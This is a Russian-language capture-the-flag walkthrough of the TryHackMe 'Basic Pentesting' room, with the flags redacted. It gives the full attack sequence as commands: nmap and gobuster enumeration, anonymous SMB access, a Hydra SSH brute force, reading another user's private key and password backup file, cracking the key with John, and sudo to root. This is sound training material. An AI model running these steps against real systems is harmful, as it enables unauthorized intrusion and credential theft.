





Basic Pentesting - TryHackMe
🏆 Найденные флаги
| Флаг | Где найден |
|---|---|
██████████ | Хеш пароля в /home/kay |
██████████ | Парольная фраза от SSH-ключа |
██████████████████████████ | Пароль от kay |
Это разбор комнаты Basic Pentesting с платформы TryHackMe. Машина уровня Easy, но содержит отличные уроки по перечислению (enumeration) и человеческому фактору.
IP цели: 10.114.171.2 (в твоем случае может быть другим).
1. Разведка (Reconnaissance)
Первым делом сканируем порты уязвимой машины.
nmap -sV -sC -p- --min-rate 5000 10.114.171.2Результат: Открыты порты 22 (SSH), 80 (HTTP), 139/445 (SMB), 8009 (AJP), 8080 (HTTP-Proxy).
2. Перечисление веб-сервера и SMB
Смотрим, что лежит на веб-сервере. Для поиска скрытых папок используем gobuster:
gobuster dir -u http://10.114.171.2 -w /usr/share/wordlists/dirb/common.txtРезультат: Найдена скрытая директория /development.
Параллельно проверяем SMB-шары:
smbclient -L //10.114.171.2/ -NРезультат: Доступна шара Anonymous. Заходим в неё:
smbclient //10.114.171.2/Anonymous -N
smb: \> get staff.txt
smb: \> exit3. Анализ информации
Читаем скачанные файлы:
- staff.txt: Внутри находим имена пользователей:
janиkay. - curl http://10.114.171.2/development/dev.txt: Видим заметку от пользователя K, что он тестирует Apache Struts 2.5.12 (потенциальная уязвимость).
- curl http://10.114.171.2/development/j.txt: K пишет пользователю J (Jan), что взломал его пароль по хешу, и просит сменить его на более надежный.
Вывод: У пользователя jan очень слабый пароль.

4. Брутфорс SSH (Hydra)
Поскольку мы знаем логин и то, что пароль слабый, используем словарь rockyou.txt.
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.114.171.2Результат: Hydra подбирает пароль: ████████.
ssh jan@10.114.171.2
# Пароль: ████████
5. Повышение привилегий (Privilege Escalation)
Мы внутри под пользователем jan. Наша цель — kay.
Смотрим домашнюю директорию kay:
ls -la /home/kayНас интересует папка .ssh. Проверяем её содержимое:
ls -la /home/kay/.sshВидим приватный ключ id_rsa (и он доступен на чтение для jan). Читаем его:
cat /home/kay/.ssh/id_rsaКопируем ключ. Но в начале ключа написано Proc-Type: 4,ENCRYPTED — значит, он защищен парольной фразой (passphrase).

Ломаем ключ
На своей машине Kali сохраняем ключ в файл kay_key, даем права:
chmod 600 kay_keyПереводим ключ в хеш и ломаем через John the Ripper:
ssh2john kay_key > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txtРезультат: Парольная фраза — ████████.

6. Финальный рут
Заходим под kay, используя ключ и найденную фразу ████████:
ssh -i kay_key kay@10.114.171.2Теперь пытаемся повысить права. Вводим sudo -l, но эта фраза не подходит для sudo.
Идем на хитрость: читаем резервную копию паролей (pass.bak) в домашней папке kay:
cat /home/kay/pass.bakРезультат: Получаем настоящий пароль от kay: ██████████████████████████
Вводим его для получения рута:
sudo su
# Вводим ██████████████████████████Мы ROOT! Читаем финальный флаг:
cat /root/flag.txt
💡 Выводы
- Enumeration is key. Никакой магии. Nmap, Gobuster и Smbclient собрали пазл из кусочков.
- Человеческий фактор. Файлы dev.txt и j.txt сами выдали вектор атаки на слабый пароль.
- Всегда проверяйте права. jan смог прочитать приватный ключ kay.
- Смотрите на бэкапы. Файл pass.bak сломал всю защиту на корню.